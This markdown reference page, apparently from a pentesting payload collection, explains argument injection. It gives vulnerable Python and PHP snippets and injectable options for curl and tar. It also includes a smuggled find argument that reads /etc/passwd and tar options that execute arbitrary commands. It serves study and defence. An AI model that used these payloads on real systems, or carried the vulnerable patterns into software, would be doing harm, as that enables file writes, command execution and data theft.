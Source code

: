 # Argument Injection
Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:
```py
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```
It is possible for an attacker to pass several words to abuse options from ```curl``` command
```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```
We can see by printing the command that all the parameters are splited allowing to inject an argument that will save the response in an arbitrary file.
```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```
## Summary

* [List of exposed commands](#list-of-exposed-commands)
  * [TAR](#TAR)
  * [CURL](#CURL)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL
It is possible to abuse ```curl``` through the following options:

```ps1
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR
For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:
```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:
```ps1
-I=<program> or -I <program>
--use-compres-program=<program>
```
There are also short options to work without spaces:
```ps1
-T<file>
-I"/path/to/exec"
```

### FIND
Find some_file inside /tmp directory.
```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.
```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```


## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
